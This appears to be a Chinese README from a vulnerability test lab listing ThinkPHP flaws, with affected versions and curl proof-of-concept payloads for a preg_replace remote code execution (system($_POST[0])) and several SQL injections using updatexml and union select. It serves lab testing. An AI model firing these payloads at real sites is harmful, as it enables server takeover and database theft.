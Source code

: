 ## Thinkphp preg_replace 代码执行漏洞

测试镜像

* src/thinkphp/2.0/

说明

* 当 `URL_PATHINFO_MODEL` 设置为 `1` 时存在代码执行漏洞

Poc

```
curl -g 'http://127.0.0.1/index.php/module/action/param1/$%7B@system($_POST[0])%7D' -d 0=ls
```



## Thinkphp 5.0.16 insert 注入漏洞

测试镜像

* src/thinkphp/5.0.16/

影响版本

- Thinkphp < 5.0.16

参考文档

* [ThinkPHP框架 5.0.x sql注入漏洞分析](https://paper.seebug.org/564/)

Poc

```
curl '127.0.0.1/public/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```



## ThinkPHP 3.X/5.X order by注入漏洞

测试镜像

- src/thinkphp/5.0.16/

影响版本

- Thinkphp < 5.1.22
- Thinkphp < 3.2.3

参考文档

- [ThinkPHP 3.X/5.X order by注入漏洞](https://mp.weixin.qq.com/s/jDvOif0OByWkUNLv0CAs7w)

Poc

```
curl '127.0.0.1/public/index.php/index/index/testsqlorder?order[id|updatexml(1,concat(0x3a,user()),1)%23]=1
```



## Thinkphp3.2.3 update注入漏洞

测试镜像

- src/thinkphp/3.2.3/

影响版本

- Thinkphp < 3.2.3

参考链接

- [Thinkphp3.2.3最新版update注入漏洞](https://paper.seebug.org/573/)

Poc

```shell
curl 'http://172.17.0.2/index.php/home/user?user\[0\]=bind&user\[1\]=money_0%20or%201%20and(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))&money=qwe'
```

返回内容包含sql报错：XPATH syntax error: '~root@localhost~'



## Thinkphp exp表达式注入漏洞

测试镜像

- src/thinkphp/3.2.3/

影响版本

- Thinkphp 3.x 5.x

参考文档

- [ThinkPHP框架架构上存在SQL注入](https://www.secpulse.com/archives/29826.html)

Poc

```shell
curl 'http://172.17.0.2/index.php/home/user/exp_inject?id\[\]=exp&id\[\]=%3d888%20union%20select%201,database(),3%23'
```

